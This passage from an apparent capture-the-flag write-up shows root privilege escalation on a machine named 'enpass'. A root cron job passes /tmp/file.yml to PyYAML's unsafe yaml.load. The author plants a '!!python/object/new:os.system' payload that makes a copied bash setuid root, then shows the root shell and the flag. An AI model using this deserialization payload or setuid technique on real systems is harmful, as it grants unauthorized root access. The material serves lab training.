 ## The script

The cron job runs the following python script with `sudo` and removes the `/tmp/file.yml` file.

```python
imsau@enpass:/opt/scripts$ cat file.py 
#!/usr/bin/python
import yaml


class Execute():
  def __init__(self,file_name ="/tmp/file.yml"):
    self.file_name = file_name
    self.read_file = open(file_name ,"r")

  def run(self):
    return self.read_file.read()

data  = yaml.load(Execute().run())
```

## Exploit

We don't have write access to the script itself, but searching for exploits affecting the yaml library that is imported will lead to [this issue](https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation).

Let's exploit it:

~~~
$ cp `which bash` /tmp/bash
$ cat > /tmp/file.yml << EOF
!!python/object/new:os.system ["chown root /tmp/bash;chmod u+s /tmp/bash"]
EOF
~~~

## Root shell

After a minute, we have a root shell:

~~~
imsau@enpass:/tmp$ ./bash -p
bash-4.3# cat /root/root.txt
5d45f08ee939521d59247233d3f8faf
~~~

Root flag: `5d45f08ee939521d59247233d3f8faf`
